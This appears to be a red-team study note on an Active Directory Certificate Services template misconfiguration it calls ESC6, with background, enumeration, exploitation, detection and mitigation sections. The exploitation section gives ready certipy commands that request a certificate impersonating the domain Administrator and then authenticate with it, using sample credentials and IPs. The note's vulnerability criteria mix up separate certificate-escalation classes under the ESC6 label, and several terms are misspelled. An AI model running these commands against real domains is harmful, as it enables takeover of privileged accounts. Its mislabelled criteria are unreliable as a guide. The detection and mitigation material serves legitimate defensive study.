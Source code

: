 ```yaml
---
tags:
  - attack
  - knowledge
  - AD
  - windows
  - redteam
date: 2023-09-1
---
```

- Certificate template misconfiguration.
- Template allows:
	- requester to supply own subject (`ENROLLEE_SUPPLIES_SUBJECT`)
	- EKU includes `Client Authentication` (or `Any Purpose`).
# Background

- [[ADCS (Active Directory Certificate Services)|AD CS]] allows cert-based authentication, such as smart card logon or [[PKINIT authentication|PKINIT]].
- Cert templates define what kind of certs users can request, and for what purpose.
- EKU defines what the cert can be used:
	- Client Authentication (1.3.6.1.5.5.7.3.2)
	- Smart Card Logon (1.3.6.1.4.1.311.20.2.2)
	- Any Purpose (2.5.29.37.0) — indicates no restrictions on usage.
- If CA is trusted by AD, and cert has valid UPN, user can log on even if no access to the account.
# Vulnerability Criteria

- Vulnerable to ESC6 if:
	- `ENROLLEE_SUPPLIES_SUBJECT` is enabled.
	- EKU includes `Client Authentication` or `Any Purpose`
	- Attacker has enroll or autoenroll permissions.
	- Web enrollment is exposed via HTTP (not HTTPS).
	- CA is actively issuing certificates.
# Enumeration

- Find vulnerable templates:
	- `certipy find -u user@domain.local -p 'Pass123!' -dc-ip 10.0.0.5 -vulnerable`
- To dump all EKUs (PowerShell):
	- `Get-CertificateTemplate | Select-Object -ExpandProperty EKU`
- Confirm enrollment rights:
	- `certipy find -v -u user@domain.local -p 'Pass123!' --dc-ip 10.0.0.5`
# Exploitation

- If low privileged user is valid with enrollment rights over a vuln template:
	- `certipy req -u user@domain.local -p 'Pass123!' -ca ca01\corp-CA -template ESC6template -upn Administrator@domain.local -dc-ip 10.0.0.5 -output esc6`
- Authenticate using the cert:
	- `certipy auth -pfx esc6.pfx -dc-ip 10.0.0.5`
# Detection

- `Event IDs 4886/4887` - track cert issuance.
- Monitor for certs issued with unusual Subject/UPN.
- Monitor [[AS-REQ (Authentication Request)|AS-REQ]] patterns using cets.
- Use differential snapshots of cert templates to detect dangerous config changes.
# Mitigation

- Disable `ENROLLE_SUPPLIES_SUBJECT`.
- Avoid templates with `Any Purpose` or overly broad EKUs.
- Limit enroll permissions to specific security groups.
- Enable manager approval for sensitive templates.
- Periodically audit all cert templates:
	- `Get-CertificateTemplate | Select-Object -Property DisplayName, EKU, msPKI-Certificate-Name-Flag`